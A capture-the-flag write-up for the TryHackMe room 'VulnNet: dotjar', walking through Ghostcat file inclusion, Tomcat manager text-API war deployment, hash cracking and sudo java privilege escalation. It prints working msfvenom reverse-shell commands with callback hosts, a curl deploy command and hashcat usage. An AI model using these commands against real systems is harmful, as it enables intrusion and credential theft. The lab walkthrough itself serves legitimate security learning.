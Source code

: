 # VulnNet: dotjar

https://tryhackme.com/room/vulnnetdotjar

Oof, this room took a lot longer than it should have, I think. I really struggled with the initial foothold (not helped by the room saying it should have been easy, haha).

Recon showed two ports, `8009` and `8080`. On `8080` was a tomcat instance, so I immediately though of the war deploy hack, but the manager interface was protected by basic auth. I ran through a bunch of default creds for this, tried hitting it with hydra and even metasploit's enum function (I usually avoid metasploit just because its too magic), but no dice.

`8009` is the 'ajp' port, sort of a different protocol way to access the admin interface. A few resources I'd read only mentioned it insofar as you can use it to access tomcat if `8080` is blocked, which wasn't much use. Hmm. I figured it being exposed though, as one of only *two* ports, must be important.

An hour or so of banging my head, and I did a bit more research before stumbling onto [Ghostcat](https://www.securityweek.com/apache-tomcat-affected-serious-ghostcat-vulnerability) - a vulnerability in ajp that provides somewhat restricted but still potentially devastating local file inclusion. To test this, I hit up exploit db and found this python 2 script: https://www.exploit-db.com/exploits/48143

Grabbing this and running it as is (`python2 ghostcat.py 10.10.104.169`) pulled out the `WEB-INF/web.xml` file, which contained the following text:

```xml
<description>
     VulnNet Dev Regulations - mandatory

1. Every VulnNet Entertainment dev is obligated to follow the rules described herein according to the contract you signed.
2. Every web application you develop and its source code stays here and is not subject to unauthorized self-publication.
-- Your work will be reviewed by our web experts and depending on the results and the company needs a process of implementation might start.
-- Your project scope is written in the contract.
3. Developer access is granted with the credentials provided below:

    <redacted>:<redacted>

GUI access is disabled for security reasons.

4. All further instructions are delivered to your business mail address.
5. If you have any additional questions contact our staff help branch.
  </description>
```

Great! I had creds... but these didn't work for the manager interface. They did work for the host-manager though, and thus went the next hour as I went down a dead end. Specifically, I tried following this guide: https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/, but couldn't get it to work. Turns out, it only works if a number of configurations have been made to, for example, allow tomcat to host from remote servers which didn't appear to be the case.

So I was stuck again... until I read the above more slowly. The GUI is disabled... but in my wanderings and enumeration of tomcats docs I found it had a ... text interface? basically a simplistic api. That is, `/manager/html` is the standard manager url, but */manager/text* performs basically the same purpose *without a gui*! Sure enough, by accessing `/manager/text/list` I got a list of deployed applications.

Ok, so back to using the standard war exploit, finally :)

- First I created a jsp-based reverse shell with msfvenom: `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.108.144 LPORT=4444 -f raw -o revshell.jar`
- Then I uploaded this using curl: `curl -u <redacted> --upload-file revshell.war http://10.10.104.169:8080/manager/text/deploy?path=/revshell`
- Finally, by starting a nc listener and navigating to `http://10.10.104.169:8080/revshell`, I got onto the machine as 'web'.

From here it was somewhat easy. I ran linpeas, and found a backup file under backups I could read, `shadow-backup-alt.gz`. Unzipping this got me a copy of shadow with the hashes for `web` and the other user, `jdk-admin`. I put these through hashcat with rockyou and `-m 1800` and quickly got the jdk-admin password. In their home directory was the user flag.

To get to root, sudo -l revealed I could run java as root, specifically `/usr/bin/java -jar *.jar`. Easy. I created another revshell, with a subtly different payload: `msfvenom -p java/shell_reverse_tcp LHOST=10.10.108.144 LPORT=4445 -f raw -o revshell2.jar`, brought this onto the machine via a web server and wget, started a new listener and then ran the sudo command to get a root shell. Easy :) Note that msfvenom, with a java payload will emit a jar format by default.
